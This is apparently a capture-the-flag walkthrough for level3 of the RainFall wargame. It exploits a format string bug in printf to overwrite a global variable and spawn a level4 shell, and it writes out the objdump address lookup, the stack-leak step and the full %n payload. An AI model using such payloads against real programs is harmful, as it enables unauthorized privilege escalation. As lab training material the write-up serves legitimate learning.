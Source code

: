 # Level3
Level3 is about abusing global variables and formatted strings exploits

# Tools
GDB

# Walkthrough
The home of level3 contains a binary, called level3. 

Using dogbolt, we can decompile the binary and we see a global variable m, and a `printf` taking some user input as the formatted string.

This can be leveraged to perform some formatted string exploits.

Using `objdump -t`, we can get the address of m on the stack:
```bash
objdump -t level3
...
804988c g     O .bss	00000004              m
...
```

Using the `printf` bug, we can see the content of the stack using `%x` formatters. We see that we started writing 3 addresses after we started dumping data (we write the address first, `804988c`, which is written by the fourth `%x`).

```
level3@RainFall:~$ rm -rf attack.txt; python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%x " * 19)' > attack.txt
level3@RainFall:~$ cat attack.txt - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA200 b7fd1ac0 b7ff37d0 804988c 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 
```

`%x` formatters pop data from the stack, when the `%n` push the length of what has already been written on the stack.

Before giving us access to the terminal, the program checks whether m is 64 or not. Thus, we need to write 64 characters before pushing that value onto the stack and modifying the value of m. 

We need the 3 `%x` to pop enough data from to stack to write at the proper place, which accounts for `200 b7fd1ac0 b7ff37d0 ` -> 22 characters.
The address of m, `"\x8c\x98\x04\x08"` is 4 characters.
Thus we need to write 64 - 22 - 4 = 38 padding characters. 
Finally, we push the value with `%n`.

```
level3@RainFall:~$ rm -rf attack.txt; python -c 'print("\x8c\x98\x04\x08" + "A" * 38 + "%x " * 3 + "%n")' > attack.txt
level3@RainFall:~$ cat attack.txt - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA200 b7fd1ac0 b7ff37d0
Wait what?!
whoami
level4
```

# Resources
[2001 Paper on Formatted Strings exploits](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
[Exploiting Formatted Strings](https://security.stackexchange.com/questions/174696/how-to-exploit-variables-value#comment335877_174730)
[OWASP Formatted String Exploit](https://owasp.org/www-community/attacks/Format_string_attack)
[LiveOverflow's Binary Exploit 0x11 - Formatted Strings](https://www.youtube.com/watch?v=0WvrSfcdq1I)